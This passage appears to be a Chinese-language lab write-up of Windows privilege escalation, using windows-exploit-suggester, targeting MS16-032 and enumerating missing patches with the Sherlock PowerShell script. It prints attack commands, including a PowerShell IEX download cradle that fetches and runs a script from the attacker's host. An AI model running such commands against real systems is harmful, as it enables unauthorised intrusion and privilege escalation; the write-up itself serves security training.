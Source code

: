 进行安装...  

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNltMicaa5x60L5X99aeCRJckIcugvLZBxETe3oyLa0GPMxcDZgLmDbteAv8tEM7uJYicRMhpYH6tEA/640?wx_fmt=png)

```
python windows-exploit-suggester.py --systeminfo sysinfo.txt --database 2020-02-11-mssb.xls
```

可以看出补丁数量以及没打的补丁...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNltMicaa5x60L5X99aeCRJcRSsJFbLj0g6r4mniaqmConrdcjxyutUhdrJWYzribibZbynzJ1tkXHcuA/640?wx_fmt=png)

这边打算利用 ms16_032...

![](https://mmbiz.qpic.cn/mmbiz_svg/jRoggJ2RF3BHibojhJQ8jmNderYtvTh8HkyBLp8nlK1B262IP84ZEic7el5hZ1rSy2RRjsGUQxdSGiaPFGG66pA8FnblLMZNWzA/640?wx_fmt=svg)

![](https://mmbiz.qpic.cn/mmbiz_svg/jJSbu4Te5ib8dv7tckM3eiau36jYD6r6JzUadPhLfh5pBPkc7MXuibrLRyxucMXeHZMwuc8YJbmickBgMbiaNAGWJ6u8K69OmxYXp/640?wx_fmt=svg)

使用 Sherlock 枚举 KB

![](https://mmbiz.qpic.cn/mmbiz_svg/Iic9WLWEQMg188DeVtNKRm1TKjRbm9lMO1Sn0Nxp4ub3M6m1ib29Pg42QpAsl2KtUhGicZIM8mBLAW0BTviaOLUdwnDUBNpqgNlQ/640?wx_fmt=svg)

![](https://mmbiz.qpic.cn/mmbiz_svg/Ib5852jAyb9xjIOSr4AGdwHrOa5leGNTnFwkWXvaOsQMx7bVxQiabjjSeicggObSK25jW1K5mG6aNZia8VJuiaarScZkKOYlJP4a/640?wx_fmt=svg)

将使用 Sherlock 枚举计算机上的 KB，这里利用 Sherlock 工具进行.....

```
（这里Sherlock是一个PowerShell脚本，可以快速查找缺少的软件补丁以解决本地特权升级漏洞...）[链接](https://github.com/rasta-mouse/Sherlock)
```

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNltMicaa5x60L5X99aeCRJcJtpbicREyhp2BDJTsTrEIYWafBggeqg6I4gT6LdQUkachxQ9tTE707g/640?wx_fmt=png)

```
git clone https://github.com/rasta-mouse/Sherlock
```

下载到本地后...

继续更改文件 Sherlock.ps1 并在 Powershell 脚本的末尾添加 Find-Allvulns...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNltMicaa5x60L5X99aeCRJcnM2Vx6L05n6Duf2fiblTe74yetictLMUXGDH29LcUgaRNBjD4Ph1I8Cg/640?wx_fmt=png)

修改完后上传即可...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNltMicaa5x60L5X99aeCRJcIuQ5RxDa9cJryh5F5Z2T5vzOrWSicuQNOPyUAniaOick85xb5mjpqsGYA/640?wx_fmt=png)

```
powershell wget "http://10.10.14.20/Sherlock/Sherlock.ps1"
```

成功上传...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNltMicaa5x60L5X99aeCRJcXcWAQIP0ZjB0E3laYewwa6ht8d6exBWiaxQQ6f4hRDfWLt15IkLxhoQ/640?wx_fmt=png)

```
powershell IEX(New-Object Net.Webclient).downloadString('http://10.10.14.20/Sherlock/Sherlock.ps1')
```
